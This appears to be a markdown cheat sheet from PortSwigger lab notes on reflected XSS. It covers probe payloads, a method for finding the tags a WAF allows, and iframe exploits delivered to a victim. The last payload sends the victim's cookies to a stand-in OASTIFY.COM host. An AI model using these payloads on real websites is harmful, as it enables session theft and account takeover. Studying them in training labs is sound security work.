 > Basic XSS Payloads to _**identify**_ application security filter controls for handling data received in HTTP request.

```html
<img src=1 onerror=alert(1)>
```

```html
"><svg><animatetransform onbegin=alert(1)>
```

```
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer
```

> Submitting the above payloads may give response message, _**"Tag is not allowed"**_ due to Web Application Firewall (WAF) blocking injections. Then _**identify**_ allowed tags using [PortSwigger Academy Methodology](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked).

> URL and Base64 online encoders and decoders

- [URL Decode and Encode](https://www.urldecoder.org/)
- [BASE64 Decode and Encode](https://www.base64encode.org/)

> This lab gives great **Methodology** to _**identify**_ allowed HTML tags and events for crafting POC XSS.

> Host **iframe** code on exploit server and deliver exploit link to victim.

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Cbody%20onpopstate=print()%3E">  
```

[PortSwigger Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

> In below sample the tag **Body** and event **onresize** is the only allowed, providing an injection to perform XSS.

```js
?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

> This example show the **Body** and event **onpopstate** is not blocked.

```js
?search=%22%3E%3Cbody%20onpopstate=print()>
```

[PortSwigger Cheat-sheet XSS Example: onpopstate event](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpopstate)

> Below JavaScript is hosted on exploit server and then deliver to victim. The `code` is an iframe doing **onload** and the search parameter is vulnerable to **onpopstate**.

```js
<iframe onload="if(!window.flag){this.contentWindow.location='https://TARGET.net?search=<body onpopstate=document.location=`http://OASTIFY.COM/?`+document.cookie>#';flag=1}" src="https://TARGET.net?search=<body onpopstate=document.location=`http://OASTIFY.COM/?`+document.cookie>"></iframe>
```

